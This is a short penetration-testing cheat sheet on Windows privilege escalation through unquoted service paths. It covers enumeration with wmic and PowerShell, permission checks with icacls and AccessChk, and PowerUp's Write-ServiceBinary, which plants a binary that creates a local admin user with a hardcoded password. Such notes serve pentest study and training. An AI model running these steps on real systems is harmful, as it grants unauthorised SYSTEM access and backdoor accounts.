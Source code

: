 ```yaml
---
description: Unquoted Service Paths – Windows Privilege Escalation
---
```


# Unquoted Service Path

In simple terms, when a service is created whose executable path contains spaces and isn't enclosed within quotes, leads to a vulnerability known as Unquoted Service Path which allows a user to gain SYSTEM privileges (only if the vulnerable service is running with SYSTEM privilege level which most of the time it is).

### Manual Checks

Check service without quotes:

{% code overflow="wrap" %}
```powershell
wmic service get name,displayname,startmode,pathname | findstr /i /v "C:\Windows\\" |findstr /i /v """

# or via Powershell

Get-WmiObject -class Win32_Service -Property Name, DisplayName, PathName, StartMode | Where {$_.PathName -notlike "C:\Windows*" -and $_.PathName -notlike '"*'} | select Name,DisplayName,StartMode,PathName
```
{% endcode %}

Check File or Directory Permissions:

{% code overflow="wrap" %}
```powershell
icacls C:\
icacls "C:\Program Files\Some Vuln Service"

# or using SysInternals AccessChk
.\accesschk64.exe -wvud "C:\" -accepteula
.\accesschk64.exe -wvud "C:\Program Files\Some Vuln Service" -accepteula
```
{% endcode %}

Check Service Permissions:

{% code overflow="wrap" %}
```powershell
# cmd
sc query VulnService
sc qc VulnService

# restart
sc stop VulnService
sc start VulnService
```
{% endcode %}

### PowerUp

{% code overflow="wrap" %}
```powershell
powershell -ep bypass
. .\PowerUp.ps1

Invoke-AllChecks
Get-ServiceUnquoted
Get-ServiceDetail "VulnService"
Write-ServiceBinary -Name VulnService -Path "C:\Program Files\Some.exe" -UserName unquoted-user -Password Password123!

# from CMD
sc qc VulnService
sc stop VulnService
sc start VulnService

# check if user created
net users
net localgroup Administrators
```
{% endcode %}
